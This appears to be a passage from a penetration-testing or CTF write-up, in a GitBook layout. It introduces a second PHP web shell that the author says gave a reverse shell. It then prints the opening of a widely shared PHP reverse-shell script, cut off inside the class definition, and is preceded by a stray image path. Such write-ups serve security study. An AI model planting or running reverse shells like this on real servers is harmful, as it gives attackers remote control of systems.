

<figure><img src="../../.gitbook/assets/image (45) (3) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (71) (2).png" alt=""><figcaption></figcaption></figure>





### PHP web shell #2

This shell was better as it gave me a reverse shell rather than just a web one.

```
<?php
// Copyright (c) 2020 Ivan `incek
// v2.5
// Requires PHP v5.0.0 or greater.
// Works on Linux OS, macOS, and Windows OS.
// See the original script at https://github.com/pentestmonkey/php-reverse-shell.
class Shell {
    private $addr  = null;
    private $port  = null;
    private $os    = null;
    private $shell = null;
    private $descriptorspec = array(
        0 => array('pipe', 'r'), // shell can read from STDIN
```
